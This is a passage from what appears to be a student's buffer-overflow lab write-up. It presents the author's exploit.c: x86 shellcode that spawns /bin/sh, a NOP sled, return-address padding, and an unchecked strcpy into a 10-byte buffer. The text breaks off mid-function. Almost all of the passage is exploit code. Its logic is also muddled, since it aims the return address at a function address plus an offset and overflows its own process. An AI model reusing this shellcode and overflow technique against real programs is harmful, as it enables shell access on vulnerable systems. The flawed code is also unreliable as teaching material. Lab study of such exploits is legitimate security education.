 ```
```

(5) Next, is writing your exploit.c program
Here is what I wrote:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

#define OFFSET 100
#define NOP 0x90
#define SHELLCODE "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

// Declare the exploitable function before main
int exploitable(char *arg);

int main(int argc, char **argv) {
    char buffer[256];
    char *ptr;
    long *addr_ptr, addr;
    int offset = OFFSET;
    int bsize = sizeof(buffer);
    int i;
    char *shell[2];
    shell[0] = "/bin/sh";
    shell[1] = NULL;

    if (argc > 1) offset = atoi(argv[1]);

    addr = (long)exploitable; // Get address of exploitable function
    printf("Address of exploitable() function: 0x%lx\n", addr);

    ptr = buffer;
    addr_ptr = (long *)(ptr);

    // Fill buffer with return address
    for (i = 0; i < bsize; i += 4) {
        *(addr_ptr++) = addr + offset;
    }

    // Fill buffer with NOPs
    for (i = 0; i < bsize/2; i++) {
        buffer[i] = NOP;
    }

    // Copy shellcode to buffer
    memcpy(buffer + (bsize/2), SHELLCODE, strlen(SHELLCODE));

    // Null terminate the buffer
    buffer[bsize - 1] = '\0';

    // Pass buffer to exploitable function
    exploitable(buffer);

    return 0;
}

int exploitable(char *arg) {
    // Make some stack space
    char buffer[10];
    // Now copy the buffer
    strcpy(buffer, arg);
```